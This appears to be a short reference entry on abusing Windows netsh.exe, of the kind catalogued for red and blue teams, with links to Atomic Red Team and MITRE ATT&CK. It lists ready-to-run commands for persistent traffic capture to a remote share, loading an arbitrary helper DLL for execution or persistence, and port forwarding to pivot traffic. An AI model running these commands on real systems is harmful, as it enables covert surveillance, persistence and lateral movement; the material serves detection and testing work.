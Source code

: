 ## Netsh.exe
* Functions: Execute, Surveillance
```

netsh.exe trace start capture=yes filemode=append persistent=yes tracefile=\\server\share\file.etl IPv4.Address=!(<IPofRemoteFileShare>)
netsh.exe trace show status

Capture network traffic on remote file share.

netsh.exe add helper C:\Path\file.dll
Load (execute) NetSh.exe helper DLL file.

netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=8000 connectaddress=192.168.1.1
Forward traffic from the listening address and proxy to a remote system.
```
   
* Resources:   
  * https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Persistence/Netsh_Helper_DLL.md
  * https://attack.mitre.org/wiki/Technique/T1128
  * https://twitter.com/teemuluotio/status/990532938952527873
   
* Full path:   
  * C:\Windows\System32
  * C:\Windows\SysWOW64
   
* Notes:   
   
